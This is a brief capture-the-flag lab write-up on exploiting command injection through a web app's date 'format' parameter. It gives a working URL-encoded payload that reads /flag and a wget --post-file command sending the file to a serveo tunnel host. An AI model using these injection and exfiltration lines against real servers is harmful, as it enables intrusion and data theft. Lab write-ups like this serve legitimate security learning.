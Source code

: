 Very exciting twists in this lab, and lots of lessions learned.

Discover the injectable parameter by intercepting a request with Burp Suite.
`/?format=%H:%M`
this returned the time from the server.

it can be injected by encapsulating `%H:%M` in single qoutes adding `;<command>` that is, `‘%H:%M;<command>’`
This causes command execution on the server.

However, the buffer for the website only showed one line at a time, that is the last line of any command result and the the flag since it was not conventionally named (flag.txt). Therefore, commands like `find` which returned many lines were of no use. Exfiltrating retults of the same was to no avail. Below, you will find lots of failed attempts including exfiltration through a tunnel, directory listing, base64 encoding to exfiltrate. 

the flag could be retrieved by `‘%H:%M;cat /flag’ `that is `/?format=%27%H:%M;cat%20/flag%27`

Lessons Learnt
Learnt about setting up a tunnel with serveo to expose a private IP to the internet. 
Data exfiltration throught wget and a serveo tunnel
```
wget --post-file=/flag https://fd606f13904bcb33418d892c3c293f6c.serveo.net
```

<img width="1811" height="990" alt="flag1" src="https://github.com/user-attachments/assets/4d151f84-7373-416c-acaf-2ad4802078c6" />

<img width="664" height="675" alt="serveo" src="https://github.com/user-attachments/assets/aa8c02e0-314f-42af-8c7f-f1e343afa9c0" />

<img width="661" height="1307" alt="etc-folder" src="https://github.com/user-attachments/assets/c7fdad6e-49f9-478b-84e3-52a1885bb145" />
